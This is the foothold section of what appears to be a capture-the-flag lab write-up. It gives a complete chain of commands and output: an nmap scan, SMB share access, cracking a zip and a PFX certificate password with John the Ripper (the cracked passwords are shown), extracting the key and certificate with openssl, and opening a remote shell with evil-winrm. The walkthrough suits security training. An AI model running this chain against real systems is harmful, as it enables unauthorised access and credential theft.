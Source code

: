 
#### Foothold

I start with running nmap, to find all the open ports on the victim's ip:

```
nmap -p- --min-rate=1000 -T4 {target_ip}
```

I get a long list of ip addresses and run them with the `-sC` and `-sV` flags

```
nmap -p[port1],[port2],[port...] -sC -sV {target ip}
```

I see that port `445` is open using the SMB protocol.

I check the open shares with:

```
smbclient -L //{target ip}/
```

I see the `Shares` is open, I login:

```
$ smbclient //10.10.11.152/Shares

$ cd /Dev

$ get winrm_backup.zip
```

I get the zip file on my local and run the following commands:

```
$ zip2john winrm_backup.zip > zip.john
$ john zip.john -wordlist:/usr/share/wordlists/rockyou.txt
$ winrm_backup.zip/legacyy_dev_auth.pfx
$ $ unzip -P supremelegacy winrm_backup.zip
Archive:  winrm_backup.zip
  inflating: legacyy_dev_auth.pfx
$ python /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > pfx.john
$ john pfx.john -wordlist:/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:31 DONE (2024-10-27 14:45) 0.03136g/s 101372p/s 101372c/s 101372C/s thuglife06..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
thuglegacy
$ openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
thuglegacy
$ evil-winrm -i 10.129.227.113 -c cert.pem -k key.pem -S
                                        
Evil-WinRM shell v3.5
...

*Evil-WinRM* PS C:\Users\legacyy\Documents>
```



